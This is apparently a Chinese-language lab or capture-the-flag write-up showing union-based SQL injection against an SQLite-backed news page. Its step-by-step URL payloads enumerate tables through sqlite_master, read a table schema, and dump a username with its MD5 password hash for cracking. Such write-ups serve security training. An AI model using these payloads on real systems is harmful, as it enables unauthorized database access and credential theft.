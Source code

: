 没用过SQLite，查看SQLite 数据库介绍，发现支持大部分通用SQL语句，故先直接使用已知的SQL语句直接查询

1. 获取SELECT 字段数
http://219.153.49.228:46485/new_list.php?id=1 order by 4  
结果：4

2. 通过UNION获取数据显示位置
http://219.153.49.228:46485/new_list.php?id=-1 union select 1,2,3,4 
结果：2 3 位置显示
3. 查询当前数据库所有表  mysql 对应information_schema.tables,SQLite 对应 sqlite_master
http://219.153.49.228:46485/new_list.php?id=-1 union select 1,2,(SELECT group_concat(tbl_name) FROM sqlite_master ),4 
结果：WSTMart_reg,sqlite_sequence,notice_sybase


4. 查询指定表的字段名  SQLite 中本人暂时没找到像information_schema.columns的表，但是SQLite可以查看表结构的SQL语句，可从此处获取字段

http://219.153.49.228:46485/new_list.php?id=-1 union select 1,2,(select group_concat(sql) from sqlite_master where tbl_name = 'WSTMart_reg' ),4 

结果：CREATE TABLE WSTMart_reg( 
    id integer primary key autoincrement, 
    name varchar(20) not null, 
    password varchar(40) not null, 
    status int not null )

5. 获取字段对应的内

http://219.153.49.228:46485/new_list.php?id=-1 union select 1,2,         (select group_concat(name,password) from WSTMart_reg ),4  
 结果：mozhe 0508f345a096b0a65ee832b4adaa0315 mozhe


6. MD5解密，登录后台，获取KEY